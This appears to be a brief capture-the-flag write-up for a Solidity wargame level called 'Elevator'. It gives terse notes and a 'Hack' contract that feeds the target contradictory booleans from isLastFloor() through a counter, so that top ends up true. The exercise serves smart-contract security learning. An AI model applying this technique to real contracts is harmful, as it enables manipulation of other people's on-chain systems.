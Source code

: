 # Elevator

---
Objective: 
- This elevator won't let you reach the top of your building. Right?
- Reach the top of the building
---

Notes:

Set top to true
Is a bool

Needs first to be true, so false after the `isLastFloor`
Just needs to feed it

```solidity
contract Hack {
  uint private count;
  Elevator private immutable target;

  constructor(address _target) {
    target = Elevator(_target);
  }

  function pwn() external {
    target.goTo(2);
    require(target.top(), "not top");
  }

  function isLastFloor(uint) external returns (bool) {
    count++;
    return count > 1;
  }
}
```

We use a counter to return two different booleans